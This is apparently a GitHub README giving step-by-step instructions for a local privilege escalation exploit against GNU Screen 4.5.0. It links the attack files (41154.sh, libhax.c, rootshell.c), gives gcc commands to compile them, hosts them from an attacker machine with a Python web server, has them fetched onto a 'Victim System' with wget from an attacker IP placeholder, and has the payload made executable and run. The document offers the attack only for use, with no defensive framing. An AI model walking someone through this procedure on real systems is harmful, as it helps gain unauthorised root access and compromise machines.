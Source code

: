 # GNU-Screen-4.5.0-Local-Privilege-Escalation-Files
## Steps to Escalate Privilege

1. Download the 3 files hosted in this Repo.
   - [41154.sh](https://github.com/Pavandeep2318/GNU-Screen-4.5.0-Local-Privilege-Escalation-Files/blob/master/41154.sh)
   - [libhax.c](https://github.com/Pavandeep2318/GNU-Screen-4.5.0-Local-Privilege-Escalation-Files/blob/master/libhax.c)
   - [rootshell.c](https://github.com/Pavandeep2318/GNU-Screen-4.5.0-Local-Privilege-Escalation-Files/blob/master/rootshell.c)
2. Put them in the same directroy
3. Compile the libhax file using the following command:
```
gcc -fPIC -shared -ldl -o libhax.so libhax.c
```
4. Compile the rootshell file using the following command:
```
gcc -o rootshell rootshell.c
```
5. Use the python one-liner to host these files:
```
python -m SimpleHTTPServer 80
```
6. Download the following files on the Victim System. 
    - 41154.sh
    - libhax.so
    - rootshell
```
wget <Attacker IP Address>/41154.sh
wget <Attacker IP Address>/libhax.so
wget <Attacker IP Address>/rootshell
```
7. Change the permissions for the file to execute it. 
```
chmod 777 41154.sh
```
8. Execute the payload
```
./41154.sh
```
